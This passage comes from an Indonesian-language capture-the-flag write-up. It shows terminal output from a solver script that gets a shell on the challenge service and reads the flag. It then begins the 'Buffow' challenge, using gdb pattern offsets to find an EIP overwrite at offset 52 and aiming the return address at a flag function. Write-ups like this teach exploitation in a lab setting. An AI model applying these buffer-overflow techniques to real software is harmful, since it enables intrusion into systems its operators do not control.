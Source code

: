 
Jalankan dan didapatkan shell.
```sh
$ python solver.py 
[+] Opening connection to asgama.web.id on port 40209: Done
[*] Switching to interactive mode
Debug Mode
$ ls
flag
hehe
$ cat flag
GamaCTF{R0P_r0P_FTW}
$ 
[*] Interrupted
[*] Closed connection to asgama.web.id port 40209
```
### Flag
`GamaCTF{R0P_r0P_FTW}`   

## Buffow [200 pts]

Diberikan file ELF 32-bit [buffow](https://github.com/abdullahnz/Writeup/blob/master/AsgamaCTF/buffow) not stripped yang hanya meminta inputan tapi tidak mencetak output; dan service ```asgama.web.id:40211```
```sh
$ file buffow
buffow: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=10ddb3cec335906e1fc641fce780bffc73fcb09a, not stripped
```

Dalam binary ini mempunyai banyak fungsi, tetapi yang paling penting adalah fungsi ```main``` dan ```flag```.
Saya coba membuat inputan dengan ```pattern``` yang ada di gdb.

```py
gdb-peda$ pattern create 300 exp
Writing pattern of 300 chars to filename "exp"
gdb-peda$ b *0x08049290
Breakpoint 2 at 0x8049290
gdb-peda$ r < exp 
Starting program: /home/abdullahnz/AsgamaCTF/WriteUp/buffow < exp
...
Stopped reason: SIGSEGV
0x41474141 in ?? ()
gdb-peda$ pattern offset 0x41474141
1095188801 found at offset: 52
```

Terlihat pada offset 52 ```eip``` ter-overwrite dan bisa merubah *return address* mengarah ke fungsi `flag` yang ada pada alamat `0x080491c2`.

```sh
$ objdump -D ./buffow | grep flag
080491c2 <flag>:
```
